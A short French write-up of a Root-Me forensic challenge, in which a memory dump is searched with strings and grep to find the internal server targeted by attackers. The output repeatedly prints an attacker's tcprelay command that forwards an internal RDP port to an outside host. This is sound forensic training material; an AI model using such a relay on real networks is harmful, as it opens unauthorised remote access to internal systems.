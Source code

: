 # Challenge Rootme 4

Lien : https://www.root-me.org/fr/Challenges/Forensic/Command-Control-niveau-4

### Objectif :

**Trouver l'adresse IP du serveur interne que ces cybercriminels visent**

    strings ch2.dmp |grep tcprelay

Output :

      tcprelay.exe
    tcprelay.exe
    tcprelay.exe
    tcprelay.exe 192.168.0.22 3389 yourcsecret.co.tv 443 
    tcprelay.exe 192.168.0.22 3389 yourcsecret.co.tv 443 
    tcprelay.exe 192.168.0.22 3389 yourcsecret.co.tv 443 
    tcprelay.c
    C:\Users\JOHNDO~1\AppData\Local\Temp\TEMP23\tcprelay.exeg[j
    \Users\John Doe\AppData\Local\Temp\TEMP23\tcprelay.exe
    \Users\John Doe\AppData\Local\Temp\TEMP23\tcprelay.exe
    tcprelay.exe
    5C:\Users\JOHNDO~1\AppData\Local\Temp\TEMP23\tcprelay.exeg[j
    tcprelay.c
    tcprelay.exe 192.168.0.22 3389 yourcsecret.co.tv 443 
    C:\Users\JOHNDO~1\AppData\Local\Temp\TEMP23\tcprelay.exe
    C:\Users\JOHNDO~1\AppData\Local\Temp\TEMP23\tcprelay.exe
    C:\Users\John Doe\AppData\Local\Temp\TEMP23\tcprelay.exeN_
    tcprelay.exe 192.168.0.22 3389 yourcsecret.co.tv 443 
    01/12/2013  05:57 PM            22,078 tcprelay.exe
    mp\TEMP23\tcprelay.exe
    Doe\AppData\Local\Temp\TEMP23\tcprelay.exeJ
    C:\Users\JOHNDO~1\AppData\Local\Temp\TEMP23\tcprelay.exeg[j
    C:\Users\JOHNDO~1\AppData\Local\Temp\TEMP23\tcprelay.exe
    C:\Users\JOHNDO~1\AppData\Local\Temp\TEMP23\tcprelay.exe
    tcprelay.exe 192.168.0.22 3389 yourcsecret.co.tv 443 
    01/12/2013  05:57 PM            22,078 tcprelay.exe
    C:\Users\JOHNDO~1\AppData\Local\Temp\TEMP23\tcprelay
    tcprelay.exe 192.168.0.22 3389 yourcsecret.co.tv 443 
    C:\Users\JOHNDO~1\AppData\Local\Temp\TEMP23\tcprelay
    C:\Users\JOHNDO~1\AppData\Local\Temp\TEMP23\tcprelay.exe
    C:\Users\John Doe\AppData\Local\Temp\TEMP23\tcprelay.exeN_
    C:\Users\John Doe\AppData\Local\Temp\TEMP23\tcprelay.exeJ"
    C:\Users\John Doe\AppData\Local\Temp\TEMP23\tcprelay.exeN_
    C:\Users\John Doe\AppData\Local\Temp\TEMP23\tcprelay.exeJ"
    5C:\Users\JOHNDO~1\AppData\Local\Temp\TEMP23\tcprelay.exeg[j
    tcprelay.c
    tcprelay.exe 192.168.0.22 3389 yourcsecret.co.tv 443 

Nous voyons ici que l'adresse IP ainsi que le port est ******* !

